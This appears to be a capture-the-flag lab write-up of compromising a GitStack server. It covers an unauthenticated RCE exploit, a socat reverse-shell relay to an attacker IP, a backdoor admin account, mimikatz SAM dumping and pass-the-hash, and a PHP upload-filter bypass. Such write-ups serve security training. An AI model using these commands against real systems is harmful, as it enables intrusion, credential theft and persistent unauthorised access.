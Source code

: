 # Getting access

In order to be able to connect to `10.200.177.150` from our machine, we use `sshuttle`.

```sh
sshuttle -r root@thomaswreath.thm --ssh-cmd "ssh -i root.prod-serv.ssh" 10.200.177.0/24 -x 10.200.177.200
```

Navigating to the web service on port 80, we're greeted with an error page.

![[screenshot-10.200.177.150p80_home.png]]

It tells us this is a Django app with debug enabled, as well as several URLs to try. The main application page is `/gitstack` which is the git server mentioned by the client.

Checking for gitstack exploits with `searchsploit gitstack`, we have an unauthenticated RCE script `php/webapps/43777.py`. Running the exploit gives us a backdoor executing shell commands as `nt authority\system`.

![[exploit-43777.py.png]]
![[backdoor-43777.py.png]]

By opening a port on `10.200.177.200` with `firewall-cmd --zone=public --add-port 17171/tcp`, we're able to get a reverse shell on `10.200.177.150`.

```sh
# attacker
socat tcp-l:1337 STDOUT

# 10.200.177.200
socat tcp:10.50.174.9:1337 tcp-l:17171,fork,reuseaddr

# Make a request to our backdoor on 10.200.177.150 with a powershell reverse shell aimed at 10.200.177.150:17171
```

![[screenshot-10.200.177.150-revshell.png]]

With this, we have a shell as `nt authority\system`.

# Persistence

For persistence, as well as RDP and WinRM access, I created the user `chocola`.

```cmd
net user chocola PASSWORD /add
net localgroup Administrators chocola /add
net localgroup "Remote Management Users" chocola /add
```

With the newly created account, we can log into RDP and WinRM. Using RDP, we run `mimikatz` to get the administrator's password hash.

```sh
xfreerdp /v:git-serv /u:chocola /p:tset +clipboard /dynamic-resolution /drive:./shared,chocola
```

Running `cmd.exe` as Administrator, run `mimikatz`

```
# privilege::debug
# token::elevate
# lsadump::sam
```

![[mimikatz.png]]
![[mimikatz-thomas.png]]

With multiple password hashes dumped, we attempted to crack them and only got Thomas' password.

With the dumped hashes, we're able to perform pass-the-hash and log in as Administrator on WinRM.

# Git repository

Looking around the `git-serv` machine, we can find the source code of the page in `C:\GitStack\repositories\website1.git`, which we're able to easily download using WinRM. 

In `/resources/index.php`, we have file upload with some filters.

```php
	if(isset($_POST["upload"]) && is_uploaded_file($_FILES["file"]["tmp_name"])){
		$target = "uploads/".basename($_FILES["file"]["name"]);
		$goodExts = ["jpg", "jpeg", "png", "gif"];
		if(file_exists($target)){
			header("location: ./?msg=Exists");
			die();
		}
		$size = getimagesize($_FILES["file"]["tmp_name"]);
		if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
			header("location: ./?msg=Fail");
			die();
		}
		move_uploaded_file($_FILES["file"]["tmp_name"], $target);	
		header("location: ./?msg=Success");
		die();
	} else if ($_SERVER["REQUEST_METHOD"] == "post"){
		header("location: ./?msg=Method");
	}
```

There are 2 filters in place: a file extension whitelist and a image file type check. Regarding the 1st filter, in line 9 of the code above, the file name is split on `.` and the 2nd item is checked against  a list of good extensions. This filter can easily be bypassed by having an extra extension in t he file name, for example `file.jpg.php` would pass the filter but still be a PHP file. As for the 2nd filter, it can be passed by uploading a legitimate image file with PHP code somewhere in the file.
